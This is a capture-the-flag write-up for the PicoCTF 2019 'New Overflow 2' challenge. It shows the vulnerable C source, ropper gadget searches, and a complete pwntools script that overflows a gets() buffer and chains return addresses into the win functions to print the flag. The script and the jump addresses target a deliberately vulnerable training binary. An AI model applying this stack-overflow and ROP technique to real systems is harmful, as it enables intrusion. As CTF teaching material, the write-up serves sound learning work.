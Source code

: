 [Back](PicoFrontPage.md)

# New Overflow 2
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools Used
* GEF-GDB
* Pwntools
* Favourite text editor
* Ropper

### Source Code
```c
bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

#### Important Points:
* We have to set both bool variables (win1 and win2) to true so that the `win_fn()` function will print out the flag
* The `flag()` function

### Analysis
For this solution, you can actually just use the same method and script to solve it because of the `flag()` function being left in (most probably an accident).

I decided to go a different route and solve it through return-oriented programming. 
First, I tried to `pop` the arguments into the appropriate registers. 

To search for relevant ROP instructions I used ropper:
`ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`

E.g. `ropper -f ./vuln --search "pop rdi"`

<!-- Insert pop rdi image here -->
![Pop RDI](../Images/PicoCTF2019/NewOverflow2poprdi.jpg)

However, I could not find a relevant instruction that included the `rbx` register.
So, I tried to skip directly to the addresses that set `win1` and `win2` variables to `true`.

<!-- Insert Disassembler image here -->
![win_fn1 disas](../Images/PicoCTF2019/NewOverflow2winfn1disas.jpg)

<!-- Insert Disassembler image here -->
![win_fn2 disas](../Images/PicoCTF2019/NewOverflow2winfn2disas.jpg)

I chained a bunch of `ret` instructions with the appropriate addresses and devised the appropriate script to execute.

### Exploit

Final script:

```python
from pwn import *

p = process('./vuln')

# variables
win1 = 0x400777 # win1 = true
win2 = 0x4007b4 # win2 = true
ret = 0x40028d # ret instruction
win_fn = 0x4007be # win_fn function address

#payload
payload = b'A'*72
payload += p64(ret)
payload += p64(win1)
payload += p64(ret)
payload += p64(win2)
payload += p64(ret)
payload += p64(win_fn)

# receive until character
p.recvuntil(b'?')

# send payload as one line
p.sendline(payload)

# get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[New Overflow 1](newoverflow1.md)